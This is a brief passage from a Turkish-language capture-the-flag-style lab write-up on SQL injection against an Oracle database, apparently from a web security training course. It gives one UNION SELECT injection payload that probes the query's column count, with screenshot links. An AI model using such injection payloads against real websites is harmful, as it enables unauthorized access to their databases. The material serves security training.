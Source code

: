 # Lab: SQL injection attack, listing the database contents on Oracle

Bu lab ortamında da Oracle veritabanında benzer şeyleri yapmamız istenmektedir.

![Untitled](Web-Security-0x0A-Web-Security-Academy'den-Devam-E-5d98a1205cb7439db45c8e0570ab118e/Untitled-27.png)

Burada da başlangıçta parametre kısmına bu ifadeyi vererek başlayabiliriz.

```python
mdisec' UNION SELECT null,null FROM dual --
```

![Untitled](Web-Security-0x0A-Web-Security-Academy'den-Devam-E-5d98a1205cb7439db45c8e0570ab118e/Untitled-28.png)
